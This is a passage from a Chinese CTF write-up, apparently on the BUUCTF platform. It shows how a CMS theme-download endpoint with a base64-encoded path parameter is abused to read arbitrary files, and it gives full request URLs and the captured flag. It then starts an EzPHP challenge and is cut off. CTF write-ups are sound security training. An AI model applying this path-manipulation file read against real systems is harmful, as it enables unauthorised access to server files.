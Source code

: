 CMS 通用的思路, 最大的攻击面是 **插件/自定义主题(RCE)**, 管理员文件上传(webshell)。

自定义一个主题打包下载, 然后复制下载链接:

```
http://05eae77f-a654-451d-bd5c-4309f8a2da21.node5.buuoj.cn:81/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvYTEuemlw
```

最后这一串是一段 base64 编码, 解码后得到: `/var/www/html/system/tmp/theme/default/a1.zip`, 这是主题的绝对路径, 尝试修改一下: `/flag.txt` 或者 `/flag`:

```
http://05eae77f-a654-451d-bd5c-4309f8a2da21.node5.buuoj.cn:81/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
```

将下载的文件以文本格式打开, 得到 `flag{51b67735-98b8-4ba8-88b8-0742c9496e95}`

## [BJDCTF2020]EzPHP

### 找界面

点进来有个注释:

![15-1.png](15-1.png)

尝试了一下, 是 base32 编码 (和 base64 最大的区别是 **不含小写字母**):
